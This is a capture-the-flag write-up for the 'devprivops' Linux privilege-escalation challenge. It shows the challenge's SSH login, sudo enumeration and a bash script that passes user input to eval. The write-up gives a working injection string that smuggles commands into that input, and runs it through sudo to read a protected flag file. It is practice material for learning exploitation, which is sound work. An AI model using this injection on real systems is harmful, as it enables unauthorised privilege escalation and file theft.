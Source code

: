 # devprivops
## Description
```
Well good luck elevating your privs x)
ssh -p 10000 ctf@devprivops.fword.tech
Password: FwOrDAndKahl4FTW
Author: Kahla
```

SSH into it:
```
ssh -p 10000 ctf@devprivops.fword.tech
 _____                       _
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|

ctf@devprivops.fword.tech's password:
DISCLAIMER: Please don't abuse the server !

These Tasks were done to practice some Linux

Author: Kahla, Contact me for any problems


** It may take some time! We are preparing the environment for you! **

Kindly Sponsored By Root-Me Pro
user1@19e8d2367bf3:/home/user1$ ls
devops.sh  flag.txt
user1@19e8d2367bf3:/home/user1$ cat flag.txt
cat: flag.txt: Permission denied
```
You can see there is two files, and we cannot read the flag:
```bash
ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 .
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ..
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt
```

After I enumerate the container, notice something interesting when I run `sudo -l`:
```bash
sudo -l
Matching Defaults entries for user1 on 19e8d2367bf3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 19e8d2367bf3:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

This means we are allow to run `devops.sh` as `user-privileged` without password!!

## Privilege Escalation

Look at the `devops.sh`
```bash
#!/bin/bash
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:"
exec 2>/dev/null
name="deploy"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -d | --deploy )
     deploy=1
     ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo -ne "Welcome To Devops Swiss Knife \o/\n\nWe deploy everything for you:\n"


if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi

isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi

# Check your current permissions admin-san
if [[ $permission -eq 1 ]];then
        echo "You are: "
        id
fi
```
The PATH variable is set, so we cannot change the PATH and add fake binary to execute code...

Then I notice a line got `eval` and we can control `name` variable:
```bash
if [[ deploy -eq 1 ]];then
	echo -ne "Please enter your true name if you are a shinobi\n"
	read -r name
	eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
	export -f $name
fi
```

Then I create my own script in my machine to test:
```bash
#!/bin/bash
read -r name
eval "function $name { echo hi; }"
```

After some trial and error, I were able to inject code using `a { id; }; echo hi; function b`!!

Try in the container:
```
./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
FwOrDAndKahl4FTW
user1@0c8dfb54caa4:/home/user1$ ./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
a { id; }; echo hi; function b
hi
```

Then try run with `sudo` command to run as the `user-privileged` and inject `cat flag.txt`:
```
sudo -u user-privileged ./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
a { id; }; cat flag.txt; function b{
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
``` 
We get the flag! That it!

## Flag
```
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```

## Intended Solution
The author of challenge said the intended solution is run a terraform script to xfiltrate the flag:
https://discord.com/channels/736202333863542826/881404600496820294/881412916224614400